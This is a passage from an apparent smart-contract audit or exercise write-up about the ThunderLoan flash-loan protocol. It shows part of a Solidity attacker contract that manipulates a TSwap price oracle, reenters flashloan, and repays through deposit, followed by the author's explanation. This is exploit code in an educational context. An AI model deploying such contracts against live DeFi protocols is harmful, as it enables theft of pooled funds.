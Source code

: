 ```javascript
                IERC20(s_weth),
                33e18,
                IERC20(token),
                22e18,
                uint64(block.timestamp)
            );

            calculatedFee2 = ThunderLoan(s_thunderLoan).getCalculatedFee(
                IERC20(token),
                100e18
            );
            console.log("calculatedFee: ", calculatedFee2);
            ThunderLoan(s_thunderLoan).flashloan(
                address(this),
                IERC20(token),
                100e18,
                ""
            );
        }

        AssetToken assettoken = ThunderLoan(s_thunderLoan).getAssetFromToken(
            IERC20(token)
        );

        IERC20(token).approve(address(assettoken), amount + fee);
         IERC20(token).approve(s_thunderLoan, amount + fee);
        //IThunderLoan(s_thunderLoan).repay(token, amount + fee);
        //IERC20(token).safeTransfer(address(assettoken), amount + fee);
        ThunderLoan(s_thunderLoan).deposit(IERC20(token), amount + fee);

        s_balanceAfterFlashLoan = IERC20(token).balanceOf(address(this));
        return true;
    }

    function getBalanceDuring() external view returns (uint256) {
        return s_balanceDuringFlashLoan;
    }

    function getBalanceAfter() external view returns (uint256) {
        return s_balanceAfterFlashLoan;
    }
}


```

If you compare the above contract to the FlashLoanReceiver contract, you will see how I implmented everything I said above. I created a hasreentered variable to check if the function has been reentered and while the function waas in its top level call (first call to the function without reentrancy), i performed all the swaps to manipulate the tswap price oracle and then called the flashloan function again to reenter. At this point, hasreentered will be 1 so the if block will not run and it will simply run the rest of the execute operation function by approving and repaying the flashloan which is straightforward enough.

